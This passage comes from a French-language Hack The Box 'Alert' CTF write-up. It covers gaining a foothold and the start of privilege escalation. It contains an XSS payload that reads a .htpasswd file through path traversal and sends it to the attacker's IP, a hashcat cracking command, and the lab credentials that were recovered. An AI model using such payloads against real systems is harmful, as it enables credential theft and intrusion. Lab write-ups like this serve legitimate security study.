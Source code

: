 ![000-default.conf file](/images/HTB-Alert/000-default.png)

Nous allons maintenant lire le fichier.

```javascript
<script>
fetch("http://alert.htb/messages.php?file=../../../../../var/www/statistics.alert.htb/.htpasswd")
    .then(response => response.text())
    .then(data => {
    fetch("http://10.10.15.91:8000/?data=" + encodeURIComponent(data));
    })
    .catch(error => console.error("Error fetching messages:", error));
</script>
```

### Shell en tant que albert

Après avoir décodé la réponse, nous récupérons le hachage du mot de passe de `albert`.

![albert password hash](/images/HTB-Alert/albert_pwd.png)

Il s'agit d'un hachage Apache, qui peut être craqué avec le mode hashcat `1600`.

```
hashcat -a 0 -m 1600 hash.txt /usr/share/wordlists/rockyou.txt
```

Nous récupérons le mot de passe `manchesterunited`.

![albert password](/images/HTB-Alert/albert_pass.png)

---

Les informations d'identification `albert:manchesterunited` fonctionnent à `http://statistics.alert.htb/` mais la page n'affiche que des données sur les donateurs.

![Alert Dashboard](/images/HTB-Alert/donors_info.png)

---

Nous nous connectons via SSH avec ces informations d'identification et trouvons le drapeau utilisateur.

![Foothold & user flag](/images/HTB-Alert/user_flag.png)

## Elévation de Privilèges

Avec la commande `id`, nous découvrons que `albert` fait partie d'un groupe appelé `management`. En recherchant les fichiers liés à ce groupe, nous trouvons des fichiers suggérant un outil ou une application pour la surveillance des sites web.

![Files related to management group](/images/HTB-Alert/management_files.png)

Dans `/opt/website-monitor/`, nous trouvons d'autres fichiers qui confirment notre théorie d'une application de surveillance.
